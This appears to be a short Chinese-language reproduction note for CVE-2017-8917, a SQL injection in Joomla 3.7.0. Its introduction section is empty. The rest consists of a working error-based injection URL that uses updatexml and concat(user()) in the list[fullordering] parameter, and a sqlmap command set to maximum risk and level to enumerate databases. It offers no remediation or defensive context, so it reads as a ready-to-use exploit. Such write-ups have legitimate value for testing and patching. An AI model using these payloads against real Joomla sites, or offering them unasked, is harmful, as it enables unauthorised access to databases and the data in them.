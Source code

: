 # （CVE-2017-8917）Joomla 3.7.0 SQL注入漏洞

### 一、漏洞简介

### 二、漏洞影响

Joomla 3.7.0

### 三、复现过程


```
http://url:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
```

![](images/15899564899358.png)


**补充**


```bash
sqlmap -u "http://url/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```